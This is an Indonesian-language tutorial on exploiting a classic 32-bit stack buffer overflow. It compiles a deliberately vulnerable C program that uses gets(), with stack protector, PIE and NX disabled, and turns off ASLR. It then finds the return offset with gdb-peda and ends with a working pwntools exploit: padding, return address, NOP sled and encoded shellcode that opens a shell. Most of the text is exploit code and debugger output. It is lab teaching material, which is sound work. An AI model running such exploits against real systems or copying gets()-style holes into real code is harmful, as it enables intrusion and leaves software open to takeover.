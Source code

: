 Syarat dari langkah ini adalah stack executable (NO NX)

[x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NO NX ~ -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

vuln_program.c

```c
#include<stdio.h>

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary,NX,PIE

```bash
gcc -g -m32 -fno-stack-protector -z execstack -no-pie -o vuln32 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln32
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

solusinya seperti gambar dibawah ini

![[stack-frame-untuk menyimpan shellcode.png]]

untuk mendapatkan shell code bisa diambil dari 

http://shell-storm.org/shellcode/files/shellcode-841.html

atau menggunakan msfvenom

mencari padding dengan cara seperti berikut

```bash
$gdb -q vuln32
Reading symbols from vuln32...done.
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ run
Starting program: /root/You_Tube/Stack_Buffer_Overflow/3/vuln32 
give me your input :)
  

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd618 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x41414641 ('AFAA')
ECX: 0xf7fb55c0 --> 0xfbad2288 
EDX: 0xf7fb689c --> 0x0 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0x31414162 ('bAA1')
ESP: 0xffffd650 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]
0000| 0xffffd650 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd654 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd658 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd65c ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd660 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd664 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd668 ("AJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd66c ("fAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

berikut ini exploit

```bash
# padding --> 52
from pwn import *

p = process('./vuln32')
print(p.recv())
padding = b'A'*52
ret = p32(0xffffd6f0)  
nop = b'\x90'*240

shellcode = b'\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'

p.sendline(padding+ret+nop+shellcode)
print(p.clean())
p.interactive()
```

